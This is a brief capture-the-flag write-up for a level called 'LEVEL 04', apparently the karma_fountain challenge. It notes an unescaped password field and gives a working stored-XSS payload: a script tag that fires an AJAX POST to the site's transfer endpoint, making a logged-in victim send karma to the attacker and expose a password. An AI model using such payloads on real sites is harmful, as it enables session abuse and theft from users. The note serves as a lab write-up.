 LEVEL 04
========

params[:password] not escaped and checked
XSS vulnerability, user karma_fountain logs in every minute... use to
send yourself karma to see his password

    <script type='text/javascript'>$.ajax({ url: document.location +
'transfer', type: 'POST', data: { to: 'a', amount: '100' }});</script>.
